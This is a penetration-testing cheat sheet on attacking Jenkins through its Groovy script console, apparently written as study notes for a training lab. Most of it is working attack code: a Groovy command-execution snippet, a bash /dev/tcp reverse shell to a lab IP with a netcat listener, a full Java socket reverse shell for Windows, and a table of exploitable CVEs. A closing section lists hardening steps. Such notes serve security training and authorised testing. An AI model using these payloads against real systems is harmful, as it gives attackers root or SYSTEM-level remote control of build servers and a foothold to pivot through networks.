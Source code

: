 ## Attacking Jenkins
### Objective

Leverage Jenkins (often misconfigured) to gain Remote Code Execution (RCE), privilege escalation, or initial access during internal or external assessments.
### Key Exploitable Feature: Script Console

- URL:

```
http://<target>:<port>/script
```
 
Example: `http://jenkins.inlanefreight.local:8000/script

- Script Engine: Apache Groovy
    - Java-compatible scripting language
    - Executes in the Jenkins Controller runtime context    
    - Often runs as SYSTEM (Windows) or root (Linux)    
- Default Behavior: If accessible, allows execution of arbitrary OS commands
### Groovy RCE Example – Linux (id)

```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

- Output confirms privilege (e.g., `uid=0(root) gid=0(root)`)
### Reverse Shell via Script Console (Linux)

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

- Start listener:

```bash
nc -lvnp 8443
```
 
- Shell received as `root` or Jenkins user, depending on setup.
### Command Execution – Windows
#### Simple `dir` Execution

```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```
#### Full Reverse Shell – Java (Windows)

```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){
  while(pi.available()>0)so.write(pi.read());
  while(pe.available()>0)so.write(pe.read());
  while(si.available()>0)po.write(si.read());
  so.flush();po.flush();
  Thread.sleep(50);
  try {p.exitValue();break;}
  catch (Exception e){}
};
p.destroy();s.close();
```
### Alternative Exploits – Version-Specific

| CVE ID                              | Version Affected | Description                                                                    |
| ----------------------------------- | ---------------- | ------------------------------------------------------------------------------ |
| CVE-2018-1999002 + CVE-2019-1003000 | ≤ 2.137          | Bypass Groovy sandbox protections, leads to pre-auth RCE via malicious JAR     |
| Jenkins 2.150.2                     | 2.150.2          | RCE via Node.js by users with `JOB` + `BUILD` rights (or anonymous if allowed) |

- Always confirm Jenkins version    
- Public PoCs available for these exploits
### Notes on Hardening

- Jenkins admins should:    
    - Disable anonymous access
    - Restrict access to `/script`
    - Patch frequently (e.g., 2.303.1 or higher recommended)    
    - Limit plugin usage and audit permissions regularly    
### Summary

|Technique|Description|
|---|---|
|Script Console RCE|`/script` endpoint; execute Groovy/OS commands|
|Linux Reverse Shell|`bash`-based TCP shell via Groovy|
|Windows Reverse Shell|Java socket-based shell|
|Version-specific RCE|CVE chaining or privilege-based payloads|
|Post-Exploitation|Use shell to escalate, enumerate AD, pivot|
# Tags
> #Exploitation #Application-Exploitation #Jenkins 